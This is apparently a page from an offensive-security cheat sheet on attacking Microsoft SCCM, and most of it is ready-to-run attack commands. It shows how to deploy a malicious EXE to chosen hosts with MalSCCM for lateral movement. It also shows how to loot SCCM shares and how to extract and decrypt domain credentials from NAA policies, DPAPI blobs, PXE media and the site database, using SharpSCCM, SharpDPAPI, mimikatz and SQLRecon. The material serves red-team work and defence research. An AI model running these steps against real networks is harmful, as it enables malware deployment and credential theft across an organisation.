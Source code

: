 # Deployment - SCCM

## Application Deployment

> SCCM is a solution from Microsoft to enhance administration in a scalable way across an organisation.

* [PowerSCCM - PowerShell module to interact with SCCM deployments](https://github.com/PowerShellMafia/PowerSCCM)
* [MalSCCM - Abuse local or remote SCCM servers to deploy malicious applications to hosts they manage](https://github.com/nettitude/MalSCCM)


* Using **SharpSCCM**
  ```ps1
  .\SharpSCCM.exe get device --server <SERVER8NAME> --site-code <SITE_CODE>
  .\SharpSCCM.exe <server> <sitecode> exec -d <device_name> -r <relay_server_ip>
  .\SharpSCCM.exe exec -d WS01 -p "C:\Windows\System32\ping 10.10.10.10" -s --debug
  ``` 
* Compromise client, use locate to find management server 
    ```ps1
    MalSCCM.exe locate
    ```
* Enumerate over WMI as an administrator of the Distribution Point
    ```ps1
    MalSCCM.exe inspect /server:<DistributionPoint Server FQDN> /groups
    ```
* Compromise management server, use locate to find primary server
* Use `inspect` on primary server to view who you can target
    ```ps1
    MalSCCM.exe inspect /all
    MalSCCM.exe inspect /computers
    MalSCCM.exe inspect /primaryusers
    MalSCCM.exe inspect /groups
    ```
* Create a new device group for the machines you want to laterally move too
    ```ps1
    MalSCCM.exe group /create /groupname:TargetGroup /grouptype:device
    MalSCCM.exe inspect /groups
    ```

* Add your targets into the new group 
    ```ps1
    MalSCCM.exe group /addhost /groupname:TargetGroup /host:WIN2016-SQL
    ```
* Create an application pointing to a malicious EXE on a world readable share : `SCCMContentLib$`
    ```ps1
    MalSCCM.exe app /create /name:demoapp /uncpath:"\\BLORE-SCCM\SCCMContentLib$\localthread.exe"
    MalSCCM.exe inspect /applications
    ```

* Deploy the application to the target group 
    ```ps1
    MalSCCM.exe app /deploy /name:demoapp /groupname:TargetGroup /assignmentname:demodeployment
    MalSCCM.exe inspect /deployments
    ```
* Force the target group to checkin for updates 
    ```ps1
    MalSCCM.exe checkin /groupname:TargetGroup
    ```

* Cleanup the application, deployment and group
    ```ps1
    MalSCCM.exe app /cleanup /name:demoapp
    MalSCCM.exe group /delete /groupname:TargetGroup
    ```


## SCCM Shares

> Find interesting files stored on (System Center) Configuration Manager (SCCM/CM) SMB shares

* [1njected/CMLoot](https://github.com/1njected/CMLoot)
  ```ps1
  Invoke-CMLootInventory -SCCMHost sccm01.domain.local -Outfile sccmfiles.txt
  Invoke-CMLootDownload -SingleFile \\sccm\SCCMContentLib$\DataLib\SC100001.1\x86\MigApp.xml
  Invoke-CMLootDownload -InventoryFile .\sccmfiles.txt -Extension msi
  ```


## Configuration Manager

### CRED-1 Retrieve credentials via PXE boot media

* [Misconfiguration-Manager - CRED-1](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-1/cred-1_description.md)

Requirements:

* On the SCCM Distribution Point: `HKLM\Software\Microsoft\SMS\DP\PxeInstalled` = 1
* On the SCCM Distribution Point: `HKLM\Software\Microsoft\SMS\DP\IsPxe` = 1
* PXE-enabled distribution point

Exploitation:

* [csandker/pxethiefy](https://github.com/csandker/pxethiefy)
    ```ps1
    sudo python3 pxethiefy.py explore -i eth0
    ```
* [MWR-CyberSec/PXEThief](https://github.com/MWR-CyberSec/PXEThief)


### CRED-2 Request a policy containing credentials

* [Misconfiguration-Manager - CRED-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-2/cred-2_description.md)


Requirements:

* PKI certificates are not required for client authentication
* Domain accounts credential

Exploitation:

Create a machine or compromise an existing one, then request policies such as `NAAConfig`

```ps1
SharpSCCM get secrets -u <username-machine-$> -p <password>
SharpSCCM get naa
```


### CRED-3 Extract currently deployed credentials stored as DPAPI blobs and decrypt

> Dump currently deployed secrets via WMI. If you can escalate on a host that is an SCCM client, you can retrieve plaintext domain credentials.

* [Misconfiguration-Manager - CRED-3](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-3/cred-3_description.md)


**Requirements**:

* Local administrator privileges on an SCCM client


**Exploitation**:

* Find SCCM blob
    ```ps1
    Get-Wmiobject -namespace "root\ccm\policy\Machine\ActualConfig" -class "CCM_NetworkAccessAccount"
    NetworkAccessPassword : <![CDATA[E600000001...8C6B5]]>
    NetworkAccessUsername : <![CDATA[E600000001...00F92]]>
    ```

* Using [GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI/blob/81e1fcdd44e04cf84ca0085cf5db2be4f7421903/SharpDPAPI/Commands/SCCM.cs#L208-L244) 
    ```ps1
    $str = "060...F2DAF"
    $bytes = for($i=0; $i -lt $str.Length; $i++) {[byte]::Parse($str.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber); $i++}
    $b64 = [Convert]::ToBase64String($bytes[4..$bytes.Length])
    .\SharpDPAPI.exe blob /target:$b64 /mkfile:masterkeys.txt    
    ```

* Using [Mayyhem/SharpSCCM](https://github.com/Mayyhem/SharpSCCM) for SCCM retrieval and decryption
    ```ps1
    .\SharpSCCM.exe local secrets -m wmi
    ```

From a remote machine.

* Using [garrettfoster13/sccmhunter](https://github.com/garrettfoster13/sccmhunter)
    ```ps1
    python3 ./sccmhunter.py http -u "administrator" -p "P@ssw0rd" -d internal.lab -dc-ip 10.10.10.10. -auto
    ```


### CRED-4 Extract legacy credentials stored as DPAPI blobs and decrypt

* [Misconfiguration-Manager - CRED-4](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-4/cred-4_description.md)

**Requirements**:

* Local administrator privileges on an SCCM client


**Exploitation**:

* Search the database using `SharpDPAPI`
    ```ps1
    .\SharpDPAPI.exe search /type:file /path:C:\Windows\System32\wbem\Repository\OBJECTS.DATA
    ```

* Search the database using `SharpSCCM`
    ```ps1
    .\SharpSCCM.exe local secrets -m disk
    ```

* Check ACL for the CIM repository located at `C:\Windows\System32\wbem\Repository\OBJECTS.DATA`:
    ```ps1
    Get-Acl C:\Windows\System32\wbem\Repository\OBJECTS.DATA | Format-List -Property PSPath,sddl
    ConvertFrom-SddlString ""
    ```



### CRED-5 Extract and decrypt the SC_UserAccount table from the site database

* [Misconfiguration-Manager - CRED-5](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-5/cred-5_description.md)

**Requirements**:

* Site database access
* Primary site server access
    * Access to the private key used for encryption

**Exploitation**:

* [gentilkiwi/mimikatz](https://twitter.com/gentilkiwi/status/1392204021461569537)
    ```ps1
    mimikatz # misc::sccm /connectionstring:"DRIVER={SQL Server};Trusted=true;DATABASE=ConfigMgr_CHQ;SERVER=CM1;"
    ```
* [skahwah/SQLRecon](https://github.com/skahwah/SQLRecon), only if the site server and database are hosted on the same system
    ```ps1
    SQLRecon.exe /auth:WinToken /host:CM1 /database:ConfigMgr_CHQ /module:sDecryptCredentials
    ```
* SQLRecon + [xpn/sccmdecryptpoc.cs](https://gist.github.com/xpn/5f497d2725a041922c427c3aaa3b37d1)
    ```ps1
    SQLRecon.exe /auth:WinToken /host:<SITE-DB> /database:CM_<SITECODE> /module:query /command:"SELECT * FROM SC_UserAccount"
    sccmdecryptpoc.exe 0C010000080[...]5D6F0
    ```


## References

* [Network Access Accounts are evil… - ROGER ZANDER - 13 SEP 2015](https://rzander.azurewebsites.net/network-access-accounts-are-evil/)
* [The Phantom Credentials of SCCM: Why the NAA Won’t Die - Duane Michael - Jun 28](https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9)
* [Introducing MalSCCM - Phil Keeble -May 4, 2022](https://labs.nettitude.com/blog/introducing-malsccm/)
* [Exploiting RBCD Using a Normal User Account - tiraniddo.dev - Friday, 13 May 2022](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)
* [Exploring SCCM by Unobfuscating Network Access Accounts - @_xpn_ - Posted on 2022-07-09](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)
* [Relaying NTLM Authentication from SCCM Clients - Chris Thompson - Jun 30, 2022](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)
* [Misconfiguration Manager: Overlooked and Overprivileged - Duane Michael - Mar 5, 2024](https://posts.specterops.io/misconfiguration-manager-overlooked-and-overprivileged-70983b8f350d)